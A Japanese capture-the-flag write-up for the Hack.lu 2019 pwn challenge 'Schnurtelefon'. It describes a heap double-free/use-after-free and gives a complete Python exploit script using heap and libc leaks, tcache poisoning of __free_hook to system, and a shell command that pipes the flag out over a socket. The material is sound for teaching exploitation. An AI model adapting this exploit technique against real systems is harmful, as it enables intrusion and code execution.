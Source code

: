 # [pwn 434pts] Schnurtelefon - Hack.lu CTF 2019
謎にclientとstorageがありますが、いずれも64ビットでRELRO以外有効です。
```
$ checksec -f client
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      Symbols         FORTIFY Fortified       Fortifiable  FILE
Partial RELRO   Canary found      NX enabled    PIE enabled     No RPATH   No RUNPATH   85 Symbols     Yes      0               12      client
```

```
$ checksec -f storage
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      Symbols         FORTIFY Fortified       Fortifiable  FILE
Partial RELRO   Canary found      NX enabled    PIE enabled     No RPATH   No RUNPATH   87 Symbols     Yes      0               12      storage
```

接続するとclientが起動するのですが、脆弱性はstorageにあります。いろいろやるとnoteが足りない
際にclientもstorageも17個目の要素が使われます。これはclientではnameと被っています。nameは変更できるのでポインタの下位1バイトを変更することでstorageでdouble freeやUAFを引き起こせます。
これを使えば愚直にシェルが取れるのですが、問題はstorage側で実行したコマンドの結果をどうやってclient側に持ってきて、さらにそれを表示されるかです。`__free_hook`でsystem関数を実行して任意のコマンドを渡すのですが、freeした際は`OK`という文字を0x10バイト目に返す必要があります。いろいろ調べたところリモートではfd=7にソケットが存在したので、ここにコマンドの結果をリダイレクトします。
```
printf %16sOK%46s$(ls)>&7
```
のようにするとOKのチェックは通ります。さらに、次にclientでgetを呼び出すと、本来のget処理による結果よりも先にリダイレクトしたlsの結果が回ってくるので0x20バイト好きなコマンドの結果が見られます。これを利用してフラグを取得しました。
```python
# flag{i_swear_this_is_the_last_heap_challenge}
from ptrlib import *
import os

remote = True
if remote:
    fd = 7
else:
    fd = 4

# leak latter of the flag
#cmd = "printf %16sOK%60s 1 2 3 $(cat flag)$(cat flag)$(cat flag)$(cat flag)>&{}\x00".format(fd)
# leak former of the flag
cmd = "printf %16sOK%46s 1 2 3 $(cat flag)$(cat flag)$(cat flag)$(cat flag)>&{}\x00".format(fd)

assert 0x30 < len(cmd) <= 0x50

def add(data):
    sock.sendlineafter("exit\n", "1")
    sock.sendafter("?\n", data)
    return

def delete(index):
    sock.sendlineafter("exit\n", "2")
    sock.sendafter("?\n", str(index))
    return

def get(index):
    sock.sendlineafter("exit\n", "3")
    sock.sendlineafter("?\n", str(index))
    return sock.recvline()

def rename(name):
    sock.sendlineafter("exit\n", "4")
    sock.sendafter("?\n", name)
    return

libc = ELF("./libc-2.27.so")
libc_main_arena = 0x3ebc40
if not remote:
    if os.path.exists("/tmp/socket1"):
        os.unlink("/tmp/socket1")
    server = Process(["./storage", "1"])
    sock = Process(["stdbuf", "-i0", "-o0", "./client", "1"])
else:
    sock = Socket("schnurtelefon.forfuture.fluxfingers.net", 1337)

# name
sock.sendafter("?\n", "\xff" * 8)

# fill storage
for i in range(17):
    if i == 1:
        add(cmd[:0x20])
    elif i == 2 and len(cmd) > 0x40:
        add(cmd[0x30:])
    else:
        add("A" * 0x20)
logger.info("storage: OK")

# prepare fake chunks
for i in range(8):
    add(p64(0) + p64(0x31))
logger.info("fake chunks: OK")

# heap leak
rename(b'\xc0')
delete(15)
delete(16)
add("A") # 15
add("B") # 16
delete(14)
delete(15)
heap_base = u64(get(16)[:8]) - 0x590
logger.info("heap base = " + hex(heap_base))

# libc leak
rename(p64(heap_base + 0x2f0))
delete(16)
add("Hello") # 14
rename(p64(heap_base + 0x5c0))
delete(16)
add(p64(heap_base + 0x2e0)) # 15
add("dummy")
add(p64(0) + p64(0x431)) # 16
delete(0)
libc_base = u64(get(14)[:8]) - libc_main_arena - 96
logger.info("libc base = " + hex(libc_base))

# prepare shell string
rename(p64(heap_base + 0x5c0))
delete(16)
rename(p64(heap_base + 0x5c0))
delete(16)
rename(p64(heap_base + 0x5c0))
delete(16)
add(p64(heap_base + 0x340)) # 0
add("dummy") # 16
add(cmd[0x20:0x40]) # 16
logger.info("shell script: OK")

# tcache poisoning
rename(p64(heap_base + 0x5c0))
delete(16)
rename(p64(heap_base + 0x5c0))
delete(16)
add(p64(libc_base + libc.symbol("__free_hook"))) # 16
add("dummy123") # 16
add(p64(libc_base + libc.symbol("system"))) # 16

# run!
logger.info("running script......")
rename(p64(heap_base + 0x320))
delete(16)
print(get(0))
print(get(0))
print(get(0))
print(get(0))
print(get(0))
print(get(0))
print(get(0))
print(get(0))

if remote:
    sock.interactive()
else:
    sock.interactive()
    server.close()
```

# 感想
シェルを取ってからが大変でしたが、面白かったです。